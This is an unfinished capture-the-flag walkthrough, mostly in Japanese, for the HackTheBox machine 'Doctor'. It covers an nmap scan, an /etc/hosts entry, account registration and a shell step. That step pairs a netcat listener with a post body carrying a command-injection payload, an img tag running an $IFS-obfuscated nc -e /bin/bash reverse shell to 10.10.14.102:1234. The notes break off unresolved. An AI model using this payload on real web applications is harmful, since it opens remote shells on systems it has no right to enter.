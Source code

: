 Unfinished
# How to solove ?

## scan on nmap 
nmap -sC -sV -A -o scan.txt 10.10.10.209

## add doctor.htb in /etc/hosts
/etc/hosts はdnsのようにipアドレスとドメインを対応付ける変換表が保存されています。
そして、そこに今回のipアドレスと任意のドメインを追記して保存します。

```
10.10.10.209 doctors.htb
```

## access to doctors.htb 
指定したドメインにアクセスするとログインページが表示されます。  
http://doctors.htb/login?next=%2F

ですが、email , password がありません。
sqlin できませんか?

## try to make own account 
ログインページから新規アカウントの作成ページに移動できます。

user           :  john  
email         : john@gmail.com  
password : 1234  

その後、作成したアカウントでログインすることができます。

## Get shell

以下のコマンドを実行します。
```
nc -nlvp 1234
```

webページ上で新しい記事を作成します。
任意のタイトルと以下のコンテンツを入力します。
```
Title :  
 Give me Shell  
Content : 
<img src=http://10.10.14.102/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.102'$IFS'1234')>

```
10.10.14.102
10.10.14.66 => own IP address  ?
1234 => nc command port ?

i cannot 



